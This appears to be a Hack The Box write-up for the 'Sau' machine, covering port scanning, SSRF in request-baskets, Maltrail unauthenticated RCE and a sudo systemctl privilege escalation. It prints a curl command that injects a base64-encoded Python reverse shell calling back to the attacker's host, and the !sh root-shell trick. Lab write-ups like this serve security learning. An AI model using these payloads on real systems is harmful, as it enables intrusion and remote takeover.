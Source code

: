 ```yaml
---
title: Hack The Box Machine - Sau
date: 2023-07-29
layout: "simple"
tags: [hackthebox, easy]
categories: [hackthebox]

---
```

### Easy Box


![Sau](https://www.hackthebox.com/storage/avatars/1ea2980b9dc2d11cf6a3f82f10ba8702.png)


| Name | Sau|
| :------ |:--- |
| OS | Linux |
| RELEASE DATE | July 8, 2023 |
| DIFFICULTY | <span style="color:green">Easy</span> | 1






## Port Scan
I actually wanted to test Naabu as my scanner of choice to be able to enumerate the host. I just Naabu to scan all of the ports and Naabu has a feature to then pump the ports to nmap. This was my command and output.

```sh
solidshadw@solidManjaro  ~/Downloads   
$ sudo naabu -p - -host 10.10.11.224 -nmap-cli 'nmap -sV -oX nmap-outpu  
t'
  
                 __  
 ___  ___  ___ _/ /  __ __  
/ _ \/ _ \/ _ \/ _ \/ // /  
/_//_/\_,_/\_,_/_.__/\_,_/  
  
               projectdiscovery.io  
  
[INF] Current naabu version 2.1.6 (latest)  
[INF] Running host discovery scan  
[INF] Running SYN scan with CAP_NET_RAW privileges  
[INF] Found 2 ports on host 10.10.11.224 (10.10.11.224)  
10.10.11.224:55555  
10.10.11.224:22  
[INF] Running nmap command: nmap -sV -oX nmap-output -p 22,55555 10.10.  
11.224  
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-29 14:30 MDT  
Nmap scan report for 10.10.11.224  
Host is up (0.069s latency).  
  
PORT      STATE SERVICE VERSION  
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux;  
protocol 2.0)  
55555/tcp open  unknown  
1 service unrecognized despite returning data. If you know the service/  
version, please submit the following fingerprint at https://nmap.org/cg  
i-bin/submit.cgi?new-service :  
SF-Port55555-TCP:V=7.94%I=7%D=7/29%Time=64C576E7%P=x86_64-pc-linux-gnu%  
r(G  
SF:etRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/htm  
l;\  
SF:x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Sat,\x2029\x20Jul\  
x20  
SF:2023\x2020:30:31\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\  
"/w  
SF:eb\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x2  
0Re  
SF:quest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection  
:\x  
SF:20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x  
202  
SF:00\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Sat,\x2029\x20Jul\  
x20  
SF:2023\x2020:30:31\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequ  
est  
SF:,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/pla  
in;  
SF:\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Reque  
st"  
SF:)%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20  
tex  
SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\  
x20  
SF:Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n  
Con  
SF:tent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r  
\n\  
SF:r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x204  
00\  
SF:x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r  
\nC  
SF:onnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,6  
7,"  
SF:HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x  
20c  
SF:harset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%  
r(K  
SF:erberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t  
ext  
SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x  
20R  
SF:equest")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\  
r\n  
SF:Content-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Opti  
ons  
SF::\x20nosniff\r\nDate:\x20Sat,\x2029\x20Jul\x202023\x2020:30:58\x20GM  
T\r  
SF:\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20  
nam  
SF:e\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}  
\$\  
SF:n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Ty  
pe:  
SF:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\  
x20  
SF:Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Requ  
est  
SF:\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20  
clo  
SF:se\r\n\r\n400\x20Bad\x20Request");  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
  
Service detection performed. Please report any incorrect results at htt  
ps://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 89.64 seconds
```

Looks like we found 2 ports opened. Port 22 and Port 55555. 

## Port 55555
Looks like this port is running a web interface

![image](./20230729160044.png)

As I inspect the app. Looks like you can create a webhook like in which it collects and inspects the data sent over. 

We can send requests to the basket that I created `http://10.10.11.224:55555/web/gfr64fy`. 

![image1](./20230729160639.png)

On the main page, I saw a version number `Version: 1.2.1`. Which I proceeded to look any potential vulnerabilities and bingo. https://github.com/advisories/GHSA-58g2-vgpg-335q, 
Looks like it is vulnerable to SSRF. As I continue to dig into this vulnerability, seems that it is exploiting the `/api/baskets/{name}`. That means that every time we visit that site, that api path gets called and triggered. 

Exploring that app a bit more, I found that you can forward URLs. 

![image2](./20230729161754.png)

I stumbled upon this [article](https://notes.sjtu.edu.cn/s/MUUhEymt7)  that was explaining the SSRF vulnerability and they used this feature of forward URL to exploit the SSRF to find any other webservers not exposed to internet. They found more resources on the localhost that where to not available on our initial scan. So, I tried on port 80 and boom we got another webserver. 

![iamge3](./20230729162117.png)

![image4](./20230729162133.png)

It looks like it is a Maltrail from the description at the bottom. It also exposes a version `v0.53`. A quick google search, you can find that version is vulnerable to an Unauthenticated RCE(the best kind) https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/.

We will need to add the `/login` at the end because it looks that is where that RCE happens. So, in the end our config will look something like this:

![image5](./20230729162522.png)

## Payload to get RevShell

I started testing the RCE by sending a curl command to my host.

![image6](./20230730211002.png)

Which it was successful! So, we know that it is working. 

![image8](./20230730211042.png)

I tried the basic sh revershell but I couldn't get it to work, not sure why. When digging into this RCE I found this [article](https://medium.com/pentesternepal/owasp-ktm-0x03-ctf-writeup-e467634a9661) in which they craft a python reverse shell and echo it in base64 and decode and execute with bash. This was my final payload:

```bash
$ curl 'http://10.10.11.224:55555/gfr64fy' \         
 --data 'username=;`echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZ  
XNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJF  
QU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjEwIiw4MDg1KSk7b3MuZHVwMihzLmZpbGVubyg  
pLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG  
9ydCBwdHk7IHB0eS5zcGF3bigiYmFzaCIpJw==|base64 -d|bash`'
```

After executing it, it worked!

![image9](./20230729154901.png)

## Privilege Escalation Payload

Looks like we are running as the user "puma". I ran the command `sudo -l` to see if he's able to run any commands as sudo without a password.

![image10](./20230729155419.png)

A quick google search on privilege escalation when running `systemctl status` landed me on this page https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/. 

So, the final payload is divided in two parts. The first is:
```bash 
sudo systemctl status trail.service
```
And then you run:
```bash
!sh
```

And that drops you into a shell. We have made it to root. 

![image11](./20230729155249.png)

